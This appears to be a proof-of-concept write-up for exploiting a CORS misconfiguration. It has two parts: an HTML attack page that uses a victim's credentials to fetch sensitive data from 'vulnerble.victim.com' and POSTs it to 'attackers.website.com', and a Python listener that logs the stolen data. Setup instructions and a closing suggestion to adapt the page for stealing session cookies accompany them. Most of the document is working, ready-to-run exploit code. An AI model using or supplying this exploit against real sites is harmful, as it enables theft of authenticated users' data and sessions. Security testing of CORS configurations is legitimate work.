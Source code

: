 Attack Code running on attacker website
===========================================
Save following code below to a directory and name it "index.html"
Start python Simple Web server in the same directory as "index.html" is located
Note the port number 88 is being used as two servers are being run on the same computer to avoid socket errors by using port 80 twice.

python -m SimpleHTTPServer 88 

BEGIN "index.html"
===========================================
<!DOCTYPE html>
<html>
<body>
<center>
<h2>CORS POC Exploit</h2>
<h3>Extract Sensitive Data</h3>
 
<div id="demo">
<button type="button" onclick="cors()">Exploit</button>
</div>
 
<script>
function cors() {
  var xhttp = new XMLHttpRequest();
  xhttp.onreadystatechange = function() {
    if (this.readyState == 4 && this.status == 200) {
	recordThis(this.responseText);
      document.getElementById("demo").innerHTML = alert(this.responseText);
    }
  };
  xhttp.open("GET", "https://vulnerble.victim.com/path/to/sensitive/data", true);
  xhttp.withCredentials = true;
  xhttp.send();
}
function recordThis(textToStore) {
// TODO: Call webservice on your own server to POST data to
  var xhttp = new XMLHttpRequest();
  xhttp.open("POST","http://attackers.website.com/",true);
  xhttp.send(JSON.stringify({ data: textToStore }));
}

</script>
 
</body>
</html>
===========================================
===========================================


Python simple server code that "Reflects the requests from HTTP methods GET, POST, PUT, and DELETE"
===========================================
Save the code below to a file called "python-post.py"
Start the "listening" server that will collect the POST data as follows
python ./python-post.py
Note - the port can be changed --- look at the code and modify as needed.


BEGIN python server code that "Reflects the requests from HTTP methods GET, POST, PUT, and DELETE"
===========================================
#!/usr/bin/env python
# Change line 47 to configure port
# Reflects the requests from HTTP methods GET, POST, PUT, and DELETE
# Written by Nathan Hamiel (2010)

from BaseHTTPServer import HTTPServer, BaseHTTPRequestHandler
from optparse import OptionParser

class RequestHandler(BaseHTTPRequestHandler):
    
    def do_GET(self):
        
        request_path = self.path
        
        print("\n----- Request Start ----->\n")
        print(request_path)
        print(self.headers)
        print("<----- Request End -----\n")
        
        self.send_response(200)
        self.send_header("Set-Cookie", "foo=bar")
        
    def do_POST(self):
        
        request_path = self.path
        
        print("\n----- Request Start ----->\n")
        print(request_path)
        
        request_headers = self.headers
        content_length = request_headers.getheaders('content-length')
        length = int(content_length[0]) if content_length else 0
        
        print(request_headers)
        print(self.rfile.read(length))
        print("<----- Request End -----\n")
        
        self.send_response(200)
    
    do_PUT = do_POST
    do_DELETE = do_GET
        
def main():
    port = 80
    print('Listening on localhost:%s' % port)
    server = HTTPServer(('', port), RequestHandler)
    server.serve_forever()

        
if __name__ == "__main__":
    parser = OptionParser()
    parser.usage = ("Creates an http-server that will echo out any GET or POST parameters\n"
                    "Run:\n\n"
                    "   reflect")
    (options, args) = parser.parse_args()
    
    main()
===========================================

To simulate, an authenticated user to the vulnerable website would visit the first attacking website (in this case the one running on port 88)
When the user clicks on the "Exploit" button the victim will pull data from the vulnerable website via the CORS "trust" and the data will be POSTed to the second website running on port 80.

http://attackers.website.com:88/index.html

Watch the console screen on the second website running on port 80 for the data to be logged.

May be able to modify "index.html" to get session cookies... look into this.


